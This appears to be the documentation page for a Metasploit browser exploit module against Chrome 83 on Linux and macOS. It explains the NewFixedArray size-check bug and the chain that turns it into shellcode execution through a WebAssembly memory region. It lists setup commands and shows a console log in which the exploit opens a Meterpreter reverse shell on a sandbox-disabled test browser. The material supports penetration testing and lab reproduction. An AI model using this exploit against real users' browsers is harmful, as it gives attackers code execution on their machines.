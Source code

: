This module exploits an issue in Google Chrome 83.0.4103.97 (64 bit). The exploit makes use of a missing size check in NewFixedArray and abuses it to create a JSArray with an invalid length. This is abused to gain arbitrary read/write into the isolate region. Then an ArrayBuffer can be used to achieve absolute arbitrary read/write.
The exploit then uses WebAssembly in order to allocate a region of RWX memory, which is then replaced with the payload shellcode.

**The payload is executed within the sandboxed renderer process, so the browser must be run with the --no-sandbox option for the payload to work correctly.**

## Vulnerable Application

The module is compatible with any 64bit Google Chrome (version 83 or less) on macOS and Linux, however the code that writes the shellcode into the rwx region (wasm_rwx_addr) may need to be modified.

**Vulnerable Application Installation Steps**

You can download a vulnerable Chrome version from this location:
[https://chromium.cypress.io/linux/stable/83.0.4103.97](https://chromium.cypress.io/linux/stable/83.0.4103.97)

1. Do: ```use exploit/multi/browser/chrome_newfixedarray_sizecheck```
2. Do: ```set URIPATH / [PATH]```
3. Do: ```set LHOST [IP]```
4. Do: ```set SRVHOST [IP]```
5. Do: ```exploit```

## Scenarios

### Ubuntu 18.04 and Google Chrome 83.0.4103.97 with --no-sandbox
Start Google Chrome without a sandbox:
```➜  ~ google-chrome-stable --no-sandbox```

```
msf5 > use exploit/multi/browser/chrome_newfixedarray_sizecheck 
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf5 exploit(multi/browser/chrome_newfixedarray_sizecheck) > set srvport 80
srvport => 80
msf5 exploit(multi/browser/chrome_newfixedarray_sizecheck) > set uripath /
uripath => /
msf5 exploit(multi/browser/chrome_newfixedarray_sizecheck) > set srvhost 127.0.0.1
srvhost => 127.0.0.1
msf5 exploit(multi/browser/chrome_newfixedarray_sizecheck) > set lhost 127.0.0.1
lhost => 127.0.0.1
msf5 exploit(multi/browser/chrome_newfixedarray_sizecheck) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:4444 
msf5 exploit(multi/browser/chrome_newfixedarray_sizecheck) > [*] Using URL: http://127.0.0.1:80/
[*] Server started.
[*] 127.0.0.1        chrome_newfixedarray_sizecheck - Sending /index.html to Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4157.0 Safari/537.36
[*] Sending stage (3012516 bytes) to 127.0.0.1
[*] Meterpreter session 1 opened (127.0.0.1:4444 -> 127.0.0.1:44046) at 2020-10-22 16:33:05 +0530

msf5 exploit(multi/browser/chrome_newfixedarray_sizecheck) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid 
Server username: no-user @ ubuntu (uid=0, gid=0, euid=0, egid=0)
```
